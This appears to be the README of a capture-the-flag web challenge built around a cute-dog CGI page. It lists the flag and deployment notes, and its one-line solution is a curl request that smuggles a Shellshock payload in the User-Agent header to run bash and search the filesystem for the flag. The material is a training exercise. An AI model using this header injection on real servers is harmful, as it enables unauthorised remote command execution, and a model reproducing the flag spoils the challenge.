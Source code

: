 # Web ???: What a cute dog!
**Author**: sandw1ch

**Flag**: RITSEC{sh3ll_sh0cked_w0wz3rs}

## Description
This dog is shockingly cute!

## Deployment
Host the Dockerfile!  
*Note: They also get RCE on the container so this may have to be respun up...*

## TL;DR Writeup
`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'grep -r RITSEC /;'" http://localhost:80/cgi-bin/stats`

## Writeup
#TODO